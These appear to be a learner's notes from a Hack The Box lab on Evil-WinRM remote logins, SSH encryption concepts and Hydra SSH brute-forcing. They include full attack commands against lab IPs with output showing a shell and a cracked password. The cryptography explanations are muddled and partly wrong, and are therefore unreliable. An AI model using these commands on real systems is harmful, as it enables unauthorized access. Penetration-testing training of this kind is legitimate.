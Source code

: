 - The syntax for Evil-WinRM is 
```shell-session
00818@htb[/htb]$ evil-winrm -i <target-IP> -u <username> -p <password>
```
- Example of the syntax
```shell-session
00818@htb[/htb]$ evil-winrm -i 10.129.42.197 -u user -p password

Evil-WinRM shell v3.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\user\Documents>
```

- If the program was successful a terminal session is then initialized using the[MS-PSRP]() which simplifies the execution of commands

- we know about [[SSH]] 

## Symmetric Encryption 
- uses the same key for encryption and decryption 
- However anyone who has access to the key could also log in without credentials 
- There are many different variants of the symmetrical cipher syst e m that can be used such as AES, Blowfish, 3DES, etc.

## Asymmetrical Encryption
- The  assymetrical encryption uses two ssh keys one is a private key and the other is a public key
- The private on the other hand must need to remain a secret sicen it can 'only be decrypted by the messasges that have been encyrpted with the public key
- this was made if the attacker obtains the private key which is often not password protected they will be able to log in to the system without credentials
- Once the connection is established the server usese the public key for intaiitalization  and authentication
- If the attacker  can decryopt the messasge it has the private key and the SSH session can begin

## Hashing 
- Hashing converts transmitted data into other unique values
-  SSH uses hashing to confirm the authenticity of messages which essentially uses a mathematical algorithm that only  works in one direction. 

## Hydra -SSH 
-  A tool such as Hydra can be used to brute force SSH

```shell-session
00818@htb[/htb]$ hydra -L user.list -P password.list ssh://10.129.42.197

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-10 15:03:51
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 25 login tries (l:5/p:5), ~2 tries per task
[DATA] attacking ssh://10.129.42.197:22/
[22][ssh] host: 10.129.42.197   login: user   password: password
1 of 1 target successfully completed, 1 valid password found
```
